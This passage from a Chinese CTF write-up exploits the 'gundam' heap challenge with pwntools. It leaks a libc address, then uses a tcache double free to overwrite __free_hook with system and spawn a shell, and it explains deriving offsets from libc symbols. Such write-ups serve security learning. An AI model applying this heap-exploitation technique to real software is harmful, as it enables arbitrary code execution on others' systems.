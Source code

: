 ```python
	build('a'*0x4)
build('B'*7)
blow_up()
visit()
addr = (p.recvuntil("Type[7]",drop=True)[-6:].ljust(8,'\x00'))
print(addr)
#gdb.attach(p)
print(hex(u64(addr)))
base=u64(addr)-0x3afca0
print(hex(base))
free_hook=base+0x3b18e8
print('4')
free(5)
free(4)
free(3)
blow_up()
free(2)
free(1)
free(0)
free(0)

build(p64(free_hook))

build('/bin/sh\x00')

build(p64(base+0x41780))

free(0)
gdb.attach(p)

p.interactive()
```

## 减少gdb调试依赖

但我们这样做有缺陷，我们所有的地址都是通过本地gdb一个一个gdb出来。所有偏移的计算过程，都有本地gdb参与。然不同的libc下，各symbols的偏移是不同。而远程下我们是不能进行gdb调的。但我们发现，libc与`__free_hook`、`__malloc__hook`、`system`这些敏感symbols的地址的偏移差距不仅固定，而且就是symbols在so文件中地址的差异。

![image-20210504002319132](image-20210504002319132.png)

这样利用pwntool 中的`symbols`来获得偏移，从而减少了对gdb调试的依赖。同时，又通过附件中的libc得到了远程环境的相同的偏移。

这样写法的完整exp：

```python
from pwn import *
#p=remote('challenge-6759487098ea2b0b.sandbox.ctfhub.com',23648)
p=process('./gundam')
l=ELF('/glibc/2.27/amd64/lib/libc.so.6')
#context.log_level = 'debug'
def build(name):
    p.sendlineafter("choice : ","1")
    p.sendlineafter("gundam :",name)
    p.sendlineafter("gundam :",'0')

def visit():
    p.sendlineafter("choice : ",'2')

def free(idx):
    p.sendlineafter("choice : ",'3')
    p.sendlineafter("Destory:",str(idx))

def blow_up():
    p.sendlineafter("choice : ",'4')
```